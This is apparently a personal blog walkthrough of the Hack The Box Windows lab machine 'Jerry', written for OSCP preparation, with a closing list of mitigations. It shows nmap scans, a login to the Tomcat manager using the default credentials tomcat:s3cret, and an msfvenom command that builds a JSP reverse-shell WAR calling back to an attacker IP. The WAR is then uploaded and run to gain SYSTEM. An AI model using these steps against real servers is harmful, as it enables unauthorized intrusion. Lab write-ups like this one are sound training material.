 ```yaml
---
title: Jerry
date: 2025-04-21
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough] 
image: jerry.jpg
media_subpath: /assets/img/posts/2025-04-21-jerryHTB/
---
```

## Introduction
In this walkthrough we will be solving Hack The Box Easy Windows box Jerry. Let’s start ..

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

…

## Web

### Port 8080

Apache tomcat coyote JSP engine 1.1

### Exploitation

I tried default credentials to get access to web manager and did that:

![image.png](image%203.png)

`tomcat:s3cret` worked.

Now we are gonna upload war file and try to get code execution:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=80 -f war > shell.war
```

I have uploaded war file:

![image.png](image%204.png)

 and then executed it 

![image.png](image%205.png)

Got code execution as nt authrority\system!

![image.png](image%206.png)

## Mitigation

- **Disable Default Credentials**
    
    Immediately remove or change default credentials such as `tomcat:s3cret`. Use strong, unique passwords for all admin accounts.
    
- **Restrict Access to the Manager Interface**
    
    Limit access to `/manager` and other administrative endpoints by IP whitelisting, VPN access, or proper firewall rules to ensure only trusted sources can reach them.
    
- **Deploy Role-Based Access Control (RBAC)**
    
    Avoid giving manager-script or manager-gui roles to accounts unless absolutely necessary. Use the principle of least privilege.
    
- **Keep Tomcat Updated**
    
    Ensure Tomcat and its components are always updated to the latest stable version to patch known vulnerabilities.
    
- **Monitor and Audit Uploads**
    
    Disable or strictly control WAR file deployment via the web interface. Monitor Tomcat logs for suspicious uploads or executions.
